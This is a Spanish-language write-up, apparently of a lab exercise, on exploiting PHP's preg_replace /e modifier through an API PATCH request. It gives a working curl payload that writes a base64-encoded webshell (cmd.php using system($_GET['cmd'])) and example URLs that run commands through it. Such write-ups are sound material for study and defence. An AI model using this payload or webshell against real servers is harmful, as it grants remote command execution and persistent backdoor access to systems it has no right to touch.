 
---

# Explotación de vulnerabilidad con `preg_replace /e` y uso de `file_put_contents`

## Contexto del ataque

Hemos explotado una API vulnerable que nos permitía modificar el contenido de la web. El origen de la vulnerabilidad se encuentra en el uso inseguro de la función `preg_replace` con el modificador `/e`, el cual evalúa el contenido como código PHP. Este modificador fue **deprecado en PHP 5.5 y eliminado en PHP 7**, precisamente porque abre la puerta a ejecuciones de código arbitrario.

El ataque consistió en enviar una petición `PATCH` a la API con un payload malicioso que aprovechaba esta vulnerabilidad para ejecutar código en el servidor.

## Código vulnerable

```php
<div class="container">
    <div class="col-md-12">
        <?php
        while ($row = mysqli_fetch_assoc($result)) {
            $content = htmlspecialchars($row['text']);
            
            echo $content;
        
            preg_replace('/.*/e',$content, "Win");
        }
        ?>
    </div>
</div>
````

En este fragmento, la entrada del usuario (`$row['text']`) termina siendo ejecutada como código PHP debido al modificador `/e`. Aunque se intenta sanitizar con `htmlspecialchars`, esa sanitización afecta solo a lo que se imprime con `echo`, no al `preg_replace`. El `preg_replace` evalúa directamente el contenido de `$content` y nos permite inyectar código arbitrario.

## Petición enviada

El payload se inyectó a través de una petición `PATCH`:

```bash
curl -s -X PATCH "http://<IP_OBJETIVO>:5000/ls2o4g/v1.0/posts/1" \
 -H "Content-Type: application/json" \
 -b "token=<JWT>" \
 -d $'{"text": "file_put_contents(\'cmd.php\', base64_decode(\'PD9waHAKICBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsKPz4K\'))"}'
```

En este caso, el campo `text` contiene código PHP que será ejecutado por el `preg_replace` vulnerable.

## Payload utilizado

El payload que se ejecuta en el servidor es:

```php
file_put_contents('cmd.php', base64_decode('PD9waHAKICBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsKPz4K'))
```

### Explicación

1. **`file_put_contents()`**  
    Es una función nativa de PHP que escribe datos en un archivo. En este caso:
    
    - El primer argumento `'cmd.php'` indica el nombre del archivo a crear.
        
    - El segundo argumento es el contenido que se va a escribir.
        
    
    Esta función simplifica lo que antes se hacía con `fopen` + `fwrite` + `fclose`.
    
2. **`base64_decode()`**  
    Dentro de `file_put_contents` se decodifica un payload en base64. Ese payload corresponde al siguiente código PHP:
    
    ```php
    <?php
      system($_GET['cmd']);
    ?>
    ```
    
    Este es un webshell muy simple que ejecuta cualquier comando del sistema que se le pase como parámetro `cmd` en la URL.
    

### Resultado

Al ejecutar el payload, se crea en el servidor un archivo `cmd.php` con el siguiente contenido:

```php
<?php
  system($_GET['cmd']);
?>
```

De esta manera, conseguimos una puerta trasera persistente en el servidor y podemos ejecutar comandos de forma remota.

## Uso del webshell

Una vez creado `cmd.php`, podemos ejecutar comandos accediendo a la URL:

```
http://<IP>/cmd.php?cmd=whoami
http://<IP>/cmd.php?cmd=ls -la
```

Esto nos da control sobre el sistema comprometido.

## Conclusión

La vulnerabilidad se origina en el uso inseguro de `preg_replace` con el modificador `/e`, que permite la ejecución de código arbitrario. Aprovechamos esta debilidad para ejecutar un payload que crea un archivo malicioso mediante `file_put_contents`. El archivo generado (`cmd.php`) es un webshell que nos permite persistencia y ejecución remota de comandos en el servidor.

---
